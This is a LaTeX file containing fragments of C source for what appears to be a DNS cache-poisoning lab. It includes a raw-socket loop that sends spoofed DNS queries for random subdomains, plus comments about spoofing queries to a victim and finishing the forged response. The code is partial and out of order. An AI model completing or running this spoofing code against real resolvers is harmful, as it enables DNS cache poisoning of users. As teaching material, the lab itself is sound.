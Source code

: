 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
    // Prevent kernel from filling up DNS packet with its information
    if(setsockopt(sd, IPPROTO_IP, IP_HDRINCL, val, sizeof(one))<0 )
    {
        printf("error\n");
        exit(-1);
    }

    while(1)
    {
// This is to generate queries for random sub-domains xxxxx.example.com
        int charnumber;
        charnumber=1+rand()%5;
        *(data+charnumber)+=1;

        udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader)); // recalculate the checksum for the UDP packet

        // send the packet out.
        if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
            printf("packet send error %d which means %s\n",errno,strerror(errno));
        sleep(0.9);
        response(data, argv[2], argv[1]);
    }
    close(sd);

    return 0;
}
		\end{verbatim}
		\iffalse
		// ----udp.c------
		// This sample program must be run by root lol! 
		// 
		// The program is to spoofing tons of different queries to the victim.
		// Use wireshark to study the packets. However, it is not enough for 
		// the lab, please finish the response packet and complete the task.
		//
		// Compile command:
		// gcc -lpcap udp.c -o udp
		//
		// 
		
		    #include <unistd.h>
		
		    #include <stdio.h>
		
		    #include <sys/socket.h>
		
		    #include <netinet/ip.h>
		
		    #include <netinet/udp.h>
		    #include <fcntl.h>
		    #include <string.h>
		    #include <errno.h>
		    #include <stdlib.h>
		#include <libnet.h>
		    // The packet length
		
		    #define PCKT_LEN 8192
		    #define FLAG_R 0x8400
		    #define FLAG_Q 0x0100
		     
		
		
		    // Can create separate header file (.h) for all headers' structure
		
		    // The IP header's structure
		
		    struct ipheader {
		
		     unsigned char      iph_ihl:4, iph_ver:4;
		
		     unsigned char      iph_tos;
		
		     unsigned short int iph_len;
		
		     unsigned short int iph_ident;
		
		 //    unsigned char      iph_flag;
		
		     unsigned short int iph_offset;
		
		     unsigned char      iph_ttl;
		
		     unsigned char      iph_protocol;
		
		     unsigned short int iph_chksum;
		
		     unsigned int       iph_sourceip;
		
		     unsigned int       iph_destip;
		
		    };
		
\end{document}
